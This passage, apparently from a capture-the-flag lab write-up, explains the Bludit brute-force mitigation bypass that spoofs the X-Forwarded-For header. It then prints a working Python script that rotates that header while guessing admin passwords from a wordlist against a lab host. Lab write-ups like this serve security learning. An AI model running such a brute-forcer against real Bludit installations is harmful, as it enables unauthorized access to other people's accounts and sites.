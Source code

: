 ![picture3](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/blunder/5.png)
- Googling and we have [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/). Read and try to understand what happened from the blog as there is a function named `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers.
- However, trusting these headers allows an attacker to easily spoof the source address.
- Let's try the PoC to our target. First, we need to modify the script to suit our target. We need to get the username and wordlist as well as url and other parameters.

- Below is my modified version to fetch wordlist via cewl from the web base.
- Modify the `host, login_url, username` and fetch `password` from wordlist .

--- 
```py
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'

# modified version to open wordlist.txt from cewl
path = './wordlist.txt'
with open('wordlist.txt', 'r') as listing:
    wordlist = listing.read().split('\n')


for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
```
